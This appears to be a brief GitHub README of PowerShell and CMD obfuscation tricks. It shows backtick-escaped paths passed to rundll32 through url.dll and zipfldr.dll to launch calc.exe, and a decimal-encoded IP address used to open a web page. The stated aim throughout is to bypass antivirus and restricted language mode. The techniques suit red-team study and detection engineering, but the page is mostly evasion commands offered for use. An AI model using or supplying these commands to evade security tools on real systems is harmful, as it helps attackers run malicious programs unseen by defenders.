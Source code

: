 # PowerShell_Obf

#PowerShell uses `` ` `` for escape characters.  CMD uses ` ^ `

#Calling files in restricted language mode and bypass most AVs

`` rundll32 url.dll,FileProtocolHandler file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

`` rundll32.exe zipfldr.dll,RouteTheCall file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

`` rundll32 url.dll,OpenURL file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

#Call a web page via its decimal value

`` rundll32 url.dll,OpenURL HTTP://`2`9`1`5`2`2`4`9`3`3 ``
